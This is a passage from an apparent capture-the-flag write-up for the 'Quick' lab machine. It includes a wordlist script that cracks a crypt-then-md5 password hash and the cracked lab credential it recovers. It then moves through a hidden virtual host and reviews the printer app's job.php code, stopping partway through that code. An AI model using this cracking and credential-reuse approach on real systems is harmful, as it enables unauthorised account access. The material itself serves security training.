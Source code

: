 It looks like they're being encrypted with the default encryption scheme for Linux, then hashed with md5. We can create a small script to decrypt the new password relatively quickly:

```
#coding utf-8
import hashlib
import crypt

filepath = 'rockyou.txt'
count = 0
with open(filepath, 'r', errors='ignore') as fp:
   line = fp.readline()
   while line:
          hashone = crypt.crypt(line.strip(), 'fa')
          hashtwo = hashlib.md5(hashone.encode())
          if hashtwo.hexdigest() == 'e626d51f8fbfd1124fdea88396c35d05':
                 print(line)
          line = fp.readline()
```

We get "yl51pbx", which works with the email in the database on the website:

**srvadm@quick.htb:yl51pbx**

This password doesn't work for ssh, so we need to figure out where we can use this. In /etc/apache2/sites-available/000-default.conf we see the following lines:

```
<VirtualHost *:80>
        AssignUserId srvadm srvadm
        ServerName printerv2.quick.htb
        DocumentRoot /var/www/printer
</VirtualHost>
```

Looks like printerv2.quick.htb is another virtualhost. We can add this to our /etc/hosts file, and connect to http://printerv2.quick.htb:9001. It's a completely different website!

The credentials we grabbed for srvadm let us log in here. We can navigate to "Add Printer" and enter a Title, IP and Port. I chose to use a Python3 script here, but nc would most likely also work. Once we've done this, we can go to printers, and click the print button for the printer we just created. 

We get the following message:

```
Printer is up. Please add a job
```

If we click the job link in this message, we are redirected to http://printerv2.quick.htb:9001/job.php?title=Printer1 where we can enter a Description for the job, and Print it.

First, we need to take a look at the job.php file in /var/www/printer/job.php. This is the important section:

```
if($_SESSION["loggedin"])                                                                                            
{                                                         
        if(isset($_POST["submit"]))
        {                                                 
                $title=$_POST["title"];                   
                $file = date("Y-m-d_H:i:s");                                                                         
                file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);                                            
                chmod("/var/www/printer/jobs/".$file,"0777");                                                        
                $stmt=$conn->prepare("select ip,port from jobs");      
                $stmt->execute();               
```